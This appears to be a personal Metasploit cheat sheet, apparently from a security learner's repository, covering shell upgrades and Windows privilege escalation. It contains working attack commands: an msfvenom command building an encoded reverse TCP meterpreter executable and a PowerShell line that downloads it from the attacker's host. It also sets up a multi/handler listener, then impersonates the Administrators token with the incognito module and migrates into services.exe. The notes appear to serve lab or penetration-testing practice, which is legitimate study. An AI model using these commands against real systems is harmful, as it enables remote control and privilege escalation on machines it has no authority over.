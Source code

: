```yaml
---
title: Metasploit
description: Metasploit is a powerful penetration testing and hacking framework designed to secure networks, services, and applications by identifying and exploiting vulnerabilities
---
```


Metasploit can be used in countless ways.  These are just a few things I found interesting and helpful along the way.

## Upgrade Powershell to Metrepreter

If you are able to land a standard powershell connection from the victim machine, you can upgrade the shell to a meterpreter shell.

This payload generates an encoded x86-64 reverse TCP meterpreter payload.
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.57.139 LPORT=1224 -f exe -o upgradeShell.exe
```

After creating this payload, download it to the machine using the same method in the previous step:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.57.139:80/upgradeShell.exe','upgradeShell.exe')"
```
Before running this program, ensure the handler is set up in Metasploit:

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.6.57.139 set LPORT 1224 run
```
Once this is running, enter this command to start the reverse shell

```powershell
Start-Process "upgradeShell.exe"
```

## Windows Escalation Technique

### SeDebugPrivilege / SeImpersonatePrivilege

If these two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled, wec can use the incognito module in metasploit to exploit this vulnerability.

```bash
use incognito 
```
**You may need to use the `load incognito` command if the previous command doesn't work.**

Check which tokens are available:
```bash
list_tokens -g
```
Use this command to impersonate the Administrator's token if it is available:
```bash
impersonate_token "BUILTIN\Administrators"
```
Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do)

The safest process to pick is the services.exe process. First, use the `ps` command to view processes and find the `PID` of the services.exe process. 

Migrate to this process using the command
```bash
migrate PID-OF-PROCESS
```

